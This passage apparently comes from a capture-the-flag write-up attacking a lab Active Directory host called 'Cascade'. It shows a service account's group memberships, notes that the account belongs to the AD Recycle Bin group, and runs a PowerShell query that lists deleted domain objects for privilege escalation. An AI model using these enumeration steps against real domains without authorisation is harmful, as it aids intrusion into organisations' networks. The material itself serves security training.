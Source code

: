 ```
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\IT                                  Alias            S-1-5-21-3332504370-1206983947-1165150453-1113 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\AD Recycle Bin                      Alias            S-1-5-21-3332504370-1206983947-1165150453-1119 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Remote Management Users             Alias            S-1-5-21-3332504370-1206983947-1165150453-1126 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
```

* I quickly noticed something that I have not seen before, our user <mark style="color:yellow;">ark\_svc is part of the AD Recycle Bin Group</mark>
* Let's start thinking about how we can take advantage of this

{% embed url="https://www.lepide.com/how-to/restore-deleted-objects-in-active-directory.html" %}

#### Step 1: Restoring AD Objects Using PowerShell Commands

```
Get-ADObject -ldapFilter:"(msDS-LastKnownRDN=*)" -IncludeDeletedObjects


Deleted           : True
DistinguishedName : CN=CASC-WS1\0ADEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe,CN=Deleted Objects,DC=cascade,DC=local
Name              : CASC-WS1
                    DEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe
ObjectClass       : computer
ObjectGUID        : 6d97daa4-2e82-4946-a11e-f91fa18bfabe

Deleted           : True
DistinguishedName : CN=Scheduled Tasks\0ADEL:13375728-5ddb-4137-b8b8-b9041d1d3fd2,CN=Deleted Objects,DC=cascade,DC=local
Name              : Scheduled Tasks
                    DEL:13375728-5ddb-4137-b8b8-b9041d1d3fd2
ObjectClass       : group
ObjectGUID        : 13375728-5ddb-4137-b8b8-b9041d1d3fd2

Deleted           : True
DistinguishedName : CN={A403B701-A528-4685-A816-FDEE32BDDCBA}\0ADEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e,CN=Deleted Objects,DC=cascade,DC=local
Name              : {A403B701-A528-4685-A816-FDEE32BDDCBA}
                    DEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e
ObjectClass       : groupPolicyContainer
ObjectGUID        : ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e

Deleted           : True
DistinguishedName : CN=Machine\0ADEL:93c23674-e411-400b-bb9f-c0340bda5a34,CN=Deleted Objects,DC=cascade,DC=local
Name              : Machine
                    DEL:93c23674-e411-400b-bb9f-c0340bda5a34
ObjectClass       : container
ObjectGUID        : 93c23674-e411-400b-bb9f-c0340bda5a34

```